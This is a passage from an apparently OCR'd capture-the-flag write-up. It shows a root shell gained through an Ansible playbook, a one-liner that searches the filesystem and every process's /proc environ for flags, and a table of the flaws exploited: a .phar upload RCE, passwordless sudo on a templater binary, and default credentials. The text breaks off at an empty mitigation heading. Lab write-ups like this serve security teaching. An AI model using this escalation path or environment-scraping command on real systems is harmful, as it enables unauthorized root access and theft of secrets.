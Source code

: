 ```bash
PLAY [localhost] ***************************************************************

TASK [Gathering Facts] *********************************************************
ok: [localhost]

TASK [Execute root shell] *****************************************************
# whoami
root
#

```

___

# Flag Retrieval

With root privileges, we search the entire system for files containing CTF flags:

```bash
bash -p
cd /
grep -rlE "ETSCTF_[0-9a-f]+" --exclude-dir=proc --exclude-dir=dev 2>/dev/null | xargs strings | cat - <(strings /proc/*/environ 2> /dev/null) | cat - <(find / -name "ETSCTF_*" 2> /dev/null) | grep -oE "ETSCTF_[0-9a-f]+" | sort | uniq

```

Result:

```bash
ETSCTF_SheepsStealer_was_here:D
ETSCTF_SheepsStealer_was_here:D
ETSCTF_SheepsStealer_was_here:D
ETSCTF_SheepsStealer_was_here:D

```

___

# Vulnerability Identification

|Vulnerability|Description|Impact|
|---|---|---|
|Insecure file upload (`.phar`)|Lack of validation and sanitization of files in the announcements section, allowing RCE.|Allows remote code execution under `www-data` user.|
|Unrestricted execution of Ansible Playbooks with sudo|The binary `/usr/local/bin/templater` can be executed with root privileges without a password.|Direct escalation to root without needing a password.|
|Exposed default credentials|Use of default credentials for initial access.|Facilitates initial access without needing exploitation.|

# Risk Mitigation
